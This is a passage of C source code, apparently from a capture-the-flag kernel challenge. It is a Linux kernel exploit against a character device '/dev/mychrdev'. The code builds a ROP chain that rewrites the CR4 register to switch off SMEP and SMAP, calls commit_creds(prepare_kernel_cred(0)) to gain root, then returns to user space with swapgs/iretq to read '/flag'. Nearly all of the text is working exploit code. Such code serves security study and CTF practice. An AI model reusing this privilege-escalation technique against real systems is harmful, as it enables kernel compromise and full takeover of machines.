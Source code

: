 ```c
	: "=r" (user_cs), "=r" (user_ss), "=r" (user_sp), "=r" (user_rflags) : : "memory");
}

void restore_stat()
{
	commit_creds(prepare_kernel_cred(0));
	asm(
		"pushq   %0;"
		"pushq   %1;"
		"pushq   %2;"
		"pushq   %3;"
		"pushq   $shell;"
		"pushq   $0;"
		"swapgs;"
		"popq    %%rbp;"
		"iretq;"
	::"m"(user_ss), "m"(user_sp), "m"(user_rflags), "m"(user_cs));
}

void shell()
{
        char buffer[100];
        int in = open("/flag", O_RDONLY,S_IRUSR); 
        int flag = read(in, buffer, 1024);
        write(1, buffer, flag);
        exit(0);
}

unsigned long long int calc(unsigned long long int addr) {
    return addr - 0xffffffff81000000 + base_addr;
}

int main() {
	save_stat();
	fd = open("/dev/mychrdev", 2);
	if (fd < 0) {
		printf("[-] bad open device\n");
		exit(-1);
	}
    	
	void* buf[0x1000];
	int i = 0x58 / 8;
 	//修改 cr4 寄存器的值为 0x6f0，以关闭 SMAP、SMEP
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0x10;
	buf[i ++] = 0xffffffff81045600;  // mov rax,rbx; pop rbx; pop rbp; ret;
	buf[i ++] = 0x6f0;
	buf[i ++] = 0;
	buf[i ++] = 0xffffffff81003cf8;  // mov cr4,rax; pop rbp; ret;
	buf[i ++] = 0;
	buf[i ++] = &restore_stat;
	write(fd, buf, 0x100);
}

```
